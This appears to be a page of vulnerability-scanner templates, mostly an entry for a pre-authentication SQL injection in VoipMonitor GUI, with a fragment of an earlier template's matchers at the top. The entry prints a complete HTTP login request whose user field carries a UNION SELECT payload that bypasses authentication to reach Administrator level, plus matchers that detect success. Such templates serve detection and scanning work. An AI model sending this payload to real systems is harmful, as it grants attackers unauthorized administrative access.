 ### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 500
  3. contains(body, "been a critical error")
- condition - and

---

# VoipMonitor - Pre-Auth SQL Injection

## Description

- A SQL injection vulnerability in Voipmonitor GUI before v24.96 allows attackers to escalate privileges to the Administrator level.
- severity - critical
- tags - cve,cve2022,voipmonitor,sqli,unauth

## Requests

### Step - 1

```
POST /api.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: application/x-www-form-urlencoded

module=relogin&action=login&pass=nope&user=a' UNION SELECT 'admin','admin',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null; #

```

### Matchers

**Type - word**

- words
  1. "success":true
  2. \_vm_version
  3. \_debug
- condition - and

**Type - status**
